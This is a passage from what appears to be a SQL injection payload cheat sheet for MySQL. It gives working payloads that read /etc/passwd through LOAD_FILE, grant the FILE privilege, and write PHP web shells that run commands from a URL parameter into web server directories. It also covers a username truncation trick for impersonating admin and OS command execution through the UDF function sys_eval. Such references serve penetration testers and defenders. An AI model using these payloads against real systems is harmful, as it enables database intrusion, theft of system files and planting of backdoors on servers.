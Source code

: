 Need the `filepriv`, otherwise you will get the error : `ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`

```sql
' UNION ALL SELECT LOAD_FILE('/etc/passwd') --
```

If you are `root` on the database, you can re-enable the `LOAD_FILE` using the following query

```sql
GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
```

## MYSQL Write a shell

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>
-1 UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

## MYSQL Truncation

In MYSQL "`admin `" and "`admin`" are the same. If the username column in the database has a character-limit the rest of the characters are truncated. So if the database has a column-limit of 20 characters and we input a string with 21 characters the last 1 character will be removed.

```sql
`username` varchar(20) not null
```

Payload: `username = "admin               a"`

## MYSQL UDF command execution

First you need to check if the UDF are installed on the server.

```powershell
$ whereis lib_mysqludf_sys.so
/usr/lib/lib_mysqludf_sys.so
```

Then you can use functions such as `sys_exec` and `sys_eval`.

```sql
$ mysql -u root -p mysql
Enter password: [...]
mysql> SELECT sys_eval('id');
+--------------------------------------------------+
| sys_eval('id') |
+--------------------------------------------------+
| uid=118(mysql) gid=128(mysql) groups=128(mysql) |
+--------------------------------------------------+
```
